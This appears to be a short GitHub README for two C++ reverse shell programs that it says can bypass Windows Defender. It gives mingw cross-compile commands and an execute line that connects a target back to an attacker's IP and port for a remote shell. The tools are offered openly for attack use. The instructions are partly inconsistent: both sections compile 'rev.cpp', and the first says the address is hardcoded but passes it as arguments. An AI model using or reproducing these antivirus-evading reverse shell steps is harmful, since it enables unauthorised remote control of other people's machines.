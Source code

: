 ## revshell.cpp
Simple C++ reverse shell, can be used to bypass Windows Defender if we want to get a simple reverse shell from the target.

*Note: The IP and PORT need to be specified statically in the file before compilation*

- Compile in linux with: `x86_64-w64-mingw32-g++ -o rev.exe rev.cpp -lws2_32 -static-libgcc -static-libstdc++`
- Execute: `rev.exe 192.168.45.195 9001`

## revshell2.cpp
Simple C++ reverse shell, can be used to bypass Windows Defender if we want to get a simple reverse shell from the target.

*Note: The executable takes IP and PORT as arguments*

- Compile in linux with: `x86_64-w64-mingw32-g++ -o rev.exe rev.cpp -lws2_32 -static-libgcc -static-libstdc++`
- Execute: `rev.exe 192.168.45.195 9001`
